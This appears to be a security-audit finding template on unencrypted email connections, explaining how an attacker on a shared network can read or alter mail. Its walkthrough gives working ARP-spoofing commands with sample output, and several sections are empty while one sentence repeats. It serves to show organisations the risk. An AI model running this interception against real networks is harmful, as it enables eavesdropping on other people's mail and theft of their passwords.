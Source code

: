 
#### Insecure Email Connections

##### Summary

A common issue with e-mail services is the lack of proper encryption. Staff should only be allowed to connect to the organization’s mail server using SSL or TLS encryption. 

When a staff member sends or receives email an attacker with access to the same local network can easily and invisibly read, record, or modify all messages in-transit to and from the organization’s mail server.

Even an informed staff member who attempts to configure his email client to require SSL or TLS encryption will be unable to do so because the mail server does not support it.

The adversary could be someone, such as a patron of the Internet cafe where a staff member is working, who just happens to be using the same local network to connect to the Internet. Or, she could work for an organization with privileged access to the relevant network, such as %{organization}’s Internet Service Provider (ISP).

Even an informed staff member who attempts to configure his email client to require SSL or TLS encryption will be unable to do so because the mail server does not support it. For webmail, a staff member who attempts to enter the secure (“https://”;) alternative webmail address when logging in, might be unable to do so, because the Webmail application does not support it.


##### Overview

##### Materials Needed

##### Considerations

##### Walkthrough
If the attacker wishes to observe the victim’s email traffic (most likely because they failed to capture an unencrypted password, which would have allowed them to log in as the victim and read their email directly), they may need to carry out a second, slightly more complex attack, which will also likely provide access to the victims password as well as the content of their email.

To capture outgoing (SMTP) messages, the process is nearly identical to the traffic monitoring exercise.


##### Network Traffic Interception

**Step 1:** The attacker tricks the victim into routing all of their traffic through the attacker’s machine. This involves making a simple request to the victim’s IP address, which is not difficult to do. Computers are rarely configured to ignore such requests.

```
$ sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'

$ sudo arpspoof -i wlan0 -t 192.168.1.99 192.168.1.1
```

Sample Output:

```
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
...
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
```
